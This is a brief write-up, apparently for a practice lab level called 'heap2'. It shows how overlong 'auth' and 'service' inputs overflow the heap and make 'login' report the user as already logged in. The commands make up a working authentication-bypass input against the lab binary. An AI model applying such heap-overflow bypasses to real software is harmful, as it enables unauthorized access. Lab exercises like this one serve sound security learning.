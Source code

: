 This one seems to be really simple. The heap becomes overwritten with large enough inputs. I passed just by messing around with various inputs.

E.g.

`./heap2`

`auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

`service BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB`

`login`


You should see `you have logged in already!`

